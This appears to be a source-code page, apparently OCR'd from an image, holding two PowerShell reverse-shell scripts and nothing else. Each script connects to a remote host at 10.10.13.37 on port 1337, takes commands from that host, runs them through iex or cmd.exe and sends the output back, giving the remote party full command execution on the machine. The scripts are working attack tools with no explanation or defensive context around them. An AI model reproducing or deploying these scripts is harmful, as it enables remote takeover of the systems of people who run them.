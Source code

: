 ```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.13.37",1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
$socket = new-object System.Net.Sockets.TcpClient("10.10.13.37",1337);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do
{
    $writer.Flush();
    $read = $null;
    $res = ""
    while($stream.DataAvailable -or $read -eq $null) {
        $read = $stream.Read($buffer, 0, 1024)
    }
    $out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");
    if(!$out.equals("exit")){
        $args = "";
        if($out.IndexOf(' ') -gt -1){
            $args = $out.substring($out.IndexOf(' ')+1);
            $out = $out.substring(0,$out.IndexOf(' '));
            if($args.split(' ').length -gt 1){
                $pinfo = New-Object System.Diagnostics.ProcessStartInfo
                $pinfo.FileName = "cmd.exe"
                $pinfo.RedirectStandardError = $true
                $pinfo.RedirectStandardOutput = $true
                $pinfo.UseShellExecute = $false
                $pinfo.Arguments = "/c $out $args"
                $p = New-Object System.Diagnostics.Process
                $p.StartInfo = $pinfo
                $p.Start() | Out-Null
                $p.WaitForExit()
                $stdout = $p.StandardOutput.ReadToEnd()
                $stderr = $p.StandardError.ReadToEnd()
                if ($p.ExitCode -ne 0) {
                    $res = $stderr
                } else {
                    $res = $stdout
                }
            }
            else{
                $res = (&"$out" "$args") | out-string;
            }
        }
        else{
            $res = (&"$out") | out-string;
        }
        if($res -ne $null){
        $writer.WriteLine($res)
    }
    }
}While (!$out.equals("exit"))
$writer.close();
$socket.close();
$stream.Dispose()

```